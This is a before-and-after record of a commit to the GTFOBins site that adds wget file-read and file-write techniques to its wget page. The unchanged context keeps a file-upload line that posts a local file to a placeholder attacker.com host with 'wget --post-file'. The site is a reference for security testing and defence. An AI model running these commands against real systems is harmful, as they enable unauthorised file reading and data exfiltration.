

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/wget.md, in a window 1280 px wide and 900 px high, scrolled down 427 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add wget file-read/write

```diff
--- a/_gtfobins/wget.md
+++ b/_gtfobins/wget.md
@@ -6,6 +6,18 @@ functions:
         URL=http://attacker.com/
         LFILE=file_to_send
         wget --post-file=$LFILE $URL
+  file-read:
+    - description: The file to be read is treated as a list of URLs, one per line, which are actually fetched by `wget`. The content appears, somewhat modified, as error messages, thus this is not suitable to read arbitrary binary data.
+      code: |
+        LFILE=file_to_read
+        wget -i $LFILE
+  file-write:
+    - description: The data to be written is treated as a list of URLs, one per line, which are actually fetched by `wget`. The data is written, somewhat modified, as error messages, thus this is not suitable to write arbitrary binary data.
+      code: |
+        LFILE=file_to_write
+        TF=$(mktemp)
+        echo DATA > $TF
+        wget -i $TF -o $LFILE
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
```
